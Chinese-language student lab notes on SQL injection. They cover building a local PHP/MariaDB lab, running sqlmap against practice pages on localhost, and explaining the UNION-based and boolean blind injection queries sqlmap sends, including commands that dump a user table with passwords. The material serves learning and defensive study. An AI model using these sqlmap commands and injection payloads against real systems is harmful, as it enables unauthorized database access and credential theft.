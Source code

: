 
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 **UNION 查询**（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 	
	CONCAT(0x71787a7071,JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,`password`,id,username)),0x71706a7171),NULL 
		FROM sql_injection.`user`-- -'
```
用该函数拖库：

![输入图片说明](/imgs/2023-05-09/EmIi4g5a3ahnV4w8.png)

同理，其他 UNION 注入也使用类似语句，如获取库名使用CAST（DATABASE）等

 - [x] 1.php 中未对展示结果进行限制（全部展示），如果对回显限制为只展示一条呢？
 
对于 3.php，每次只能输出一条 username：
![输入图片说明](/imgs/2023-05-09/90p3vA4cUp7Ay0GT.png)

再输入 `1' or '1'='1`不再显示所有 username

![输入图片说明](/imgs/2023-05-09/iEagi3JRwFAIS0ik.png)

用 sqlmap 查一下 3.php 数据库，发现发送的是：
```
SELECT username FROM user WHERE id='-4319' UNION ALL SELECT CONCAT(0x716b766b71,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x716a627071)-- -'
``` 
对比 1.php，id 用了一个不存在的负随机数“-4319”
```
SELECT username FROM user WHERE id='1' UNION ALL SELECT CONCAT(0x7176787671,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x71626a7071),NULL-- -''
```
效果，在一行输出：
![输入图片说明](/imgs/2023-05-10/i6GjbFrbaUzVen5B.png)                                                                                                                                                                                                                                                                                                                                           

UNION注入速度最快，但需要在页面直接回显数据库信息时才可使用

 - [x] 如果页面不显示数据库内部信息，只显示是或否呢

看下 5.php：会判断输入 id 是否在数据库存在，存在返回 yes，不存在返回 no
![输入图片说明](/imgs/2023-05-10/0UYlfFNTUN4teX63.png)

只返回是或否，需要使用**布尔盲注**：
试试查看数据库名：
发送了一系列请求：
```
SELECT username 
FROM user WHERE id='1' 
AND ORD
	(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))>64 
		AND 'bBdl'='bBdl'
```
判断数据库名第一位是否大于64，和前面 id=1 相与，进而通过回显 yes 或 no 判断真假

为真，再判断是否大于96，直至确定第一位

![输入图片说明](/imgs/2023-05-10/ceFvxKtE1vCT98LP.png)

确定第一位后，依次确定第二位等：

![输入图片说明](/imgs/2023-05-10/3HMB5h2Gs08IJ4FY.png)

直至确定完整库名

如果代码改成这样，在 yes 和 no 前后插入随机数，像 6.php 中一样：

![输入图片说明](/imgs/2023-05-10/Nuo3XBBRY86MenpM.png)

再使用上述代码会发现找不到注入点，这时就需要指定回显的字符串：
```
./sqlmap.py -u 
'http://127.0.0.1/sql_injection/8.php?id=1&submit=submit' 
-p id --technique=T --fresh-queries
-D sql_injection --string=yes -T user --current-db
```
*--string=yes*













> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTYwMjY0NzEwOCwyMDM3NjA5NzAyLDEwNz
UzMzc2OSwxNzY5MzI2OTgxLDIwMjAxMzAwMjgsMjY0NjQxNjAz
LDIxMjg1NzMxNjgsLTY2MTE5NDg3NiwtMjIwMTI2MTYwLC04OT
c5Njc2NzEsMTQwNTE2MjM0OSwxMDg4NzM3MzQ1LDI2OTIwNTA5
MywtMjUxMzg2NDkzLC00OTg3MDA1MjgsLTI3MTY0Mjk2OSwtOD
U4NzgyOTU4LDExNzcxMDc4MjksMjgwNzg0NDUzLDExNzAzNDU4
OTldfQ==
-->